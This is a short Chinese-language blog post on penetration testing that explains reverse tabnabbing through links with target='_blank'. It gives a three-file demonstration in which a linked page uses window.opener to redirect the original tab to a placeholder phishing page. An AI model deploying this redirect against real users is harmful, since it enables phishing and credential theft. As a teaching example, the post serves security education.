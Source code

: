 +++
date = "2016-10-12T10:24:38+08:00"
description = ""
draft = false
tags = ["pentest"]
title = "关于_blank"
topics = ["Pentest"]

+++

### 0x00 _blank
> _blank是html中的标签属性，如```<a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>```, 但若点击HELLO打开的网页1.php中有如下代码：
```
<script>
if(window.opener){
  window.opener.location  = "http://xss.reber-9.com/fish.html";
}
</script>
```
则原网页将转跳到http://xss.reber-9.com/fish.html ，这就会造成钓鱼

### 0x01 简单模板
* a.html内容如下：

> ```
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Document</title>
</head>
<body>
    <a target="_blank" href="http://xss.reber-9.com/1.php">HELLO</a>
</body>
</html>
```

* ```http://xss.reber-9.com/1.php```中1.php内容如下：

> ```
<html>
<head>
    <title>test</title>
    <script>
        if(window.opener){
            window.opener.location = "http://xss.reber-9.com/fish.html";
        }
    </script>
</head>
<body>
    <p>hello</p>
</body>
</html>
```

* 1.php同级下有个钓鱼模板fish.html，内容如下：

> ```
<html>
<head>
    <title>fish</title>
</head>
<body>
    <h2>This is fishing template!</h2>
</body>
</html>
```

* 点击a.html中的HELLO则会出现下面的情况，也就导致了钓鱼：

> {{% fluid_img src="/img/post/blank.gif" alt="blank钓鱼" %}}